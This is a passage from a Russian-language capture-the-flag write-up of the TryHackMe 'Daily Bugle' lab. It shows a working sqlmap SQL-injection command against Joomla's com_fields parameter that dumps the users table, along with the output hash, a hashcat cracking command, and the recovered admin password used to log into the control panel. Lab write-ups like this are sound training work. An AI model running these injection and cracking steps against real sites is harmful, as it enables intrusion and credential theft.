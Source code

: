 Делаю дамп таблицы `#__users` из бд `joomla`
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ sqlmap -u "http://10.10.154.91/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=3 --random-agent --dbms=mysql --technique=UE -D joomla -T \#__users --dump -p list[fullordering]

Database: joomla
Table: #__users
[1 entry]
+-----+---------------------+------------+---------+--------------------------------------------------------------+----------+
| id  | email               | name       | params  | password                                                     | username |
+-----+---------------------+------------+---------+--------------------------------------------------------------+----------+
| 811 | jonah@tryhackme.com | Super User | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+---------------------+------------+---------+--------------------------------------------------------------+----------+
```

python exploit также дал имя пользователя и hash
`>> 811 ||| Super User ||| jonah ||| jonah@tryhackme.com ||| $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

Далее можно попытаться взломать с помощью hashcat
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - DailyBugle/exploits]
└─$ hashcat -m 3200 -a 0 hash.txt /media/sf_Exchange/Dictionaries/rockyou.txt 
```

Но я, по совету, воспользовался hashes.com
`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123`

## 📂 Получение доступа

Имея логин `jonah` и пароль `spiderman123`, захожу в jommla control panel  
![jommla](screenshots/01.joomla.png)
